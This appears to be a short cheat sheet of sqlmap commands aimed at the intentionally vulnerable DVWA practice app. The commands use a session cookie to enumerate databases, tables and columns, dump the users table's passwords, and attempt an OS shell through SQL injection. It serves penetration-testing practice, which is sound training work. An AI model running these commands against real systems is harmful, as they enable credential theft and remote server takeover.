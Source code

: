 ## sqlmap

#### Exports for examples

`export cookie="security=low; PHPSESSID=24bab7fed98b050870ff1c174db99d6e"`

`export request="http://10.37.129.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"`

##### Use cookie and URL Request to get current user
`sqlmap -u $request --cookie=$cookie -b --current-db --current-user`

##### Fetch all databases
`sqlmap -u $request --cookie=$cookie -b --dbs`

##### Fetch tables in (dvwa) database
`sqlmap -u $request --cookie=$cookie -D dvwa --tables`

##### Fetch (users) column information from (dvwa) database
`sqlmap -u $request --cookie=$cookie -D dvwa -T users --columns`

##### Fetch (users) column with user/password fields
`sqlmap -u $request --cookie=$cookie -D dvwa -T users -C user,password --dump`

##### Try opening a shell
`sqlmap -u $request --cookie=$cookie --os-shell`
